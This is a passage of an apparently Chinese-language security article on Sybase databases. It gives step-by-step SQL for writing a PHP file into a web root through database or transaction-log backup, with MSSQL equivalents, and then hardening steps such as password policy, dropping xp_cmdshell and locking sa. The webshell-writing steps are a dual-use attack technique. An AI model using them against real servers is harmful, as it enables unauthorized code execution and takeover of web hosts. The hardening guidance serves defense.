 2、备份服务允许远程访问

3、有数据库权限（宿主权限）+磁盘写权限

步骤：

```
1、create table cmd(a image)—

2、insert into cmd(a) values ('<?php phpinfo();?>')—

3、dump database test to ‘C:\wamp\www\1.php’ 【全备份】
（对应MSSQL为：backup database 库名 to disk= 'C:\wamp\www\1.php ' WITH DIFFERENTIAL,FORMAT;--）
   dump TRANSACTION test to ‘C:\wamp\www\1.php’ 【LOG备份】
（对应MSSQL为：backup log 库名 to disk='d:\www\xxx\test.asp'--）

注：使用dump TRANSACTION时要求数据文件和日志文件不能存放在同一设备中。

4、drop table cmd--

```

![enter image description here](http://drops.javaweb.org/uploads/images/2a980476176fa2b17a629bf07cd18c9be98657c0.jpg)

### 加固与防范

#### 口令

```
sp_password  “原密码”, “新密码”,用户名

```

例如将sa用户的密码由空改为123456： sp_password NULL,”123456”,sa

```
sp_configure “minimum password length”,8    ---密码最短长度

sp_configure “check password for digit”,1   ---至少包含一个数字

sp_configure “systemwide password expiration”,90   ---口令有效时长

sp_configure “maximum failed logins”,5   ---设置口令错误锁定阀值

```

删除扩展存储过程xp_cmdshell， 并删 除 sybsyesp.dll 

```
exec  sp_dropextendedproc  xp_cmdshell

```

  关闭sa账户的使用：

```
sp_locklogin sa,"lock“

```
